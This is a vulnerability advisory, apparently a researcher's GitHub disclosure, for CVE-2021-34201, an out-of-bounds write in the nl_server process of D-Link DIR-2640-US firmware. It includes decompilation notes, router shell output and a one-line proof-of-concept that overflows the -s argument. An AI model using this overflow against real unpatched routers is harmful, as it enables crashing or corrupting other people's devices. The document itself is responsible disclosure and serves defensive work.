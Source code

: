 # Out-of-bounds Write in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34201)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**:

  https://support.dlink.com/productinfo.aspx?m=DIR-2640-US

  https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-2640/REVA/DIR-2640_REVA_FIRMWARE_v1.11B02_BETA01_HOTFIX.zip

## Severity

**High** 7.1 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Local ordinary users can overwrite the global variables in the .bss section, causing the process crashes or changes.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server`

```shell
admin@dlinkrouter:~$ ps
nl_server -i br0 -s dlinkrouter -s dlinkrouter3485 -s dlinkrouter.local -s dlinkrouter3485.local &
```

The decompiled code is as follows, the process does not limit the length of parameters entered by the user.

![main_function](images/main_function.png)

Is this parameter controllable externally?

![nl_server_rc](images/nl_server_rc.png)

```shell
admin@dlinkrouter:~$ cat /tmp/hosts
192.168.0.1  dlinkrouter
192.168.0.1  dlinkrouter3458
192.168.0.1  dlinkrouter.local
192.168.0.1  dlinkrouter3458.local
127.0.0.1 localhost
```

How is the variable `v4` obtained?

![nl_server_rc1](images/nl_server_rc1.png)

v4 = `WRSConfigGet()`, `WRSconfigGet` (`libwrscfg.so`)  =  `nvram_safe_get()`. The function is used to obtain the configuration information of the firmware. Further research we found that the configuration information is stored in the configuration file of the RT2860 wireless network card.

```shell
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan-factory:393:lan0_management_link=dlinkrouter
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan:416:lan0_management_link=dlinkrouter
```

[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

```shell
nl_server -s aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbb
> 128
```

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
- 22-Jun-2021 Fixed
